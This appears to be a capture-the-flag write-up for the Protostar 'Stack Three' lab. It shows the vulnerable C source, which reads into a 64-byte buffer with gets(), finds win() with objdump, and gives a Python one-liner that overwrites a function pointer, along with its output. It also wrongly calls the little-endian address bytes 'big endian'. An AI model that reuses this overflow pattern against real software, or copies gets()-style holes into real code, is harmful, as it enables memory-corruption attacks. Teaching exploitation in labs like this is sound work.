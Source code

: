 # Stack Three

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

**Hints**
- both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Writeup

In this code we have the buffer of 64 elements and a function pointer upper that.

We can overwrite the function pointer with the pointer of **win()** function to execute it.

To obtain the pointer of **win()** function, we can use **objdump**:

```bash
objdump -d /opt/protostar/bin/stack3
```

This is the **win()** function:

```
08048424 <win>:
 8048424:	55                   	push   %ebp
 8048425:	89 e5                	mov    %esp,%ebp
 8048427:	83 ec 18             	sub    $0x18,%esp
 804842a:	c7 04 24 40 85 04 08 	movl   $0x8048540,(%esp)
 8048431:	e8 2a ff ff ff       	call   8048360 <puts@plt>
 8048436:	c9                   	leave  
 8048437:	c3                   	ret  
```

The address in **big endian** will be:

```
\x24\x84\x04\x08
```

We can inject it with:

```bash
python -c "print('a' * 64 + '\x24\x84\x04\x08')" | /opt/protostar/bin/stack3
```

With this output:

```bash
$ python -c "print('a' * 64 + '\x24\x84\x04\x08')" | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```